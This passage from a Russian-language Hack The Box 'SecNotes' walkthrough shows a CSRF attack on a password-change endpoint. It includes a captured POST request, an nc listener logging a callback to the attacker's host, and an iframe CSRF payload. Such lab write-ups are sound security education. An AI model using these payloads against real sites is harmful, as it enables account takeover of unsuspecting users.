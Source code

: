 Защита от подобного рода атак тривиальна: вводятся дополнительные сущности (CSRF-токены), выступающие в роли уникального для каждой сессии секретного значения, которое определяет легитимность запроса.

### Change Password
Когда, залогинившись, мы осматривались на главной сайте, мы видели опцию **Change Password**. Вот, что она из себя представляет:

[![port80-browser-5.png]({{ "/img/htb/boxes/secnotes/port80-browser-5.png" | relative_url }})]({{ "/img/htb/boxes/secnotes/port80-browser-5.png" | relative_url }})

А вот что мы видим при изменении пароля на `newpass` и просмотре тела запроса в Burp'е (будет нужно чуть позже):
```http
POST /change_pass.php HTTP/1.1
Host: 10.10.10.97
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.97/change_pass.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 55
Cookie: PHPSESSID=jub4fv6e4epac1dimscs0mse0r
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1

password=newpass&confirm_password=newpass&submit=submit
```

### XSRF в действии
Учитывая тот факт, что гипотетический Тайлер кликает на все ссылки, которые содержатся в сообщении из "Contact Us", подсунем ему линк на смену своего же пароля (запрос ведь будет выполнен от его имени) и сигнализируем себе на машину об успехе операции:

[![port80-browser-6.png]({{ "/img/htb/boxes/secnotes/port80-browser-6.png" | relative_url }})]({{ "/img/htb/boxes/secnotes/port80-browser-6.png" | relative_url }})

```text
root@kali:~# nc -lvnp 80
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::80
Ncat: Listening on 0.0.0.0:80
Ncat: Connection from 10.10.10.97.
Ncat: Connection from 10.10.10.97:49696.
GET /SUCCESS HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.17134.228
Host: 10.10.14.71
Connection: Keep-Alive
```

Обращаю внимание, что нет смысла пытаться сделать это в iframe'е: так как на ссылку будет кликать PowerShell, а не пользователь из браузера, поэтому подобное не сработает:
```html
<html>
    <iframe src="http://10.10.10.97/change_pass.php?password=newpass&confirm_password=newpass&submit=submit"></iframe>
</html>
```
